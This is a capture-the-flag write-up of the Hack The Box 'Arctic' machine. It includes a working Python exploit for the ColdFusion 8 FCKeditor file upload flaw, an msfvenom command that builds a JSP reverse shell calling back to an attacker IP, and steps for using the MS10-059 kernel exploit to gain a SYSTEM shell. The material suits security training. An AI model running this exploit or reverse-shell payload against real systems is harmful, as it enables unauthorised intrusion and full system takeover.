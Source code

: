 # [Arctic](https://app.hackthebox.eu/machines/9) 

Start off with a quick `nmap`:

![nmap](./arctic/nmap.png)

What is the `fmtp` service on port 8500? Check `searchsploit`:

![searchsploit](./arctic/searchsploit.png)

No luck... Try connecting to it raw:

![wget](./arctic/wget.png)

Okay, so this service is a webserver of sorts? Here is `index.html`:

```html
<html>
<head>
<title>Index of /</title></head><body bgcolor="#ffffff">
<h1>Index of /</h1><br><hr><pre><a href="CFIDE/">CFIDE/</a>               <i>dir</i>   03/22/17 08:52 μμ
<a href="cfdocs/">cfdocs/</a>              <i>dir</i>   03/22/17 08:55 μμ
</pre><hr></html>
```

Here is what the browser shows:

![index](./arctic/index.png)

Here is a look inside `CFIDE` and `cfdocs`:

![cfide](./arctic/cfide.png)

![cfdocs](./arctic/cfdocs.png)

The folder `administrator` under `CFIDE` is interesting... Browsing to that page gives the following:

![administrator](./arctic/administrator.png)

So this application is Adobe Cold Fusion version 8? Try `searchsploit` again...

![searchsploit2](./arctic/searchsploit2.png)

Check out the arbitrary file upload and execution exploit for ColdFusion 8.0.1 at https://www.exploit-db.com/exploits/16788:

![exploitdb](./arctic/exploitdb.png)

According to exploitDB, there is a nice Metasploit module for this (https://www.rapid7.com/db/modules/exploit/windows/http/coldfusion_fckeditor)... Write it in Python instead :smile::

```python
import sys
import requests

UPLOAD_PATH = '/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm'
TRIGGER_PATH = '/userfiles/file/'

if sys.version_info.major != 3:
    print('requires Python3')
    exit(-1)

if len(sys.argv) != 4:
    print(f'usage: python3 {sys.argv[0]} <ip> <port> <file>')
    exit(-1)

# upload payload
TARGET = f'http://{sys.argv[1]}:{sys.argv[2]}{UPLOAD_PATH}'
print(f'[*] uploading {sys.argv[3]} to {TARGET} ...')
r = requests.post(TARGET, 
                  files={
                      'newfile': (
                          sys.argv[3].replace('.jsp', '.txt'), 
                          open(sys.argv[3], 'rb'), 
                          'application/x-java-archive'
                      )
                  }, 
                  params={
                      'Command': 'FileUpload', 
                      'Type': 'File', 
                      'CurrentFolder': f'/{sys.argv[3]}\x00'
                  })
if (r.status_code != requests.codes.ok) or ('OnUploadCompleted' not in r.text):
    print('[-] ERROR')
    print(r.text)
    exit(-1)
print('[+] DONE')

# trigger payload
TARGET = f"http://{sys.argv[1]}:{sys.argv[2]}{TRIGGER_PATH}{sys.argv[3]}"
print(f'[*] triggering payload at {TARGET} ...')
r = requests.get(TARGET)
if r.status_code != requests.codes.ok:
    print('[-] ERROR')
    print(r.text)
    exit(-1)
print('[+] DONE')
```

Need a JSP payload (https://netsec.ws/?p=331):

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.2 LPORT=6969 -f raw > bubba.jsp
```

And then Execute it:

![exploit1](./arctic/exploit1.png)

And that gives the user shell! Get the user flag:

![user](./arctic/user.png)

Next is privilege escalation. First step is looking for _easy_ kernel known vulnerabilities. Need system and hotfix info to do this:

![systeminfo](./arctic/systeminfo.png)

So there are no hotfixes installed and this is a Windows Server 2008 R2 for x64-based Systems. Use the tool `wes`  (https://github.com/bitsadmin/wesng) to look for kernel vulnerabilities:

![wes](./arctic/wes.png)

Use the CSV output to sort the vulnerabilities by date (earlier should work better):

![sort](./arctic/sort.png)

Starting with the first, CVE-2010-2554, leads to the following with some Googling:

- exploitDB page: https://www.exploit-db.com/exploits/14610
- PoC source code download link: https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/14610.zip
- Pre-compiled PoC binary: https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059
- Exploit code walkthrough: https://itm4n.github.io/chimichurri-reloaded/

Exploit code walkthrough says the user needs `SeImpersonatePrivilege` for it to work:

![whoami](./arctic/whoami.png)

So far so good. Download the compiled PoC binary with `axel`:

```bash
axel -a -n 20 https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS10-059/MS10-059.exe
```

Edit the Python3 ColdFusion8 exploit code to just upload the `MS10-059.exe` file but *not* trigger it as a callback (comment out the lines after `# trigger payload`) and use it to upload `MS10-059.exe` renammed as `MS10-059.jsp`:

![upload](./arctic/upload.png)

Then locate the file on the target system and rename it:

![locate](./arctic/locate.png)

After running the binary without any arguments, the following usage statement is given:

```
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Usage: Chimichurri.exe ipaddress port <BR>
```

So set up another listener and test it out:

![exploit2](./arctic/exploit2.png) 

And thats system!

![root](./arctic/system.png)

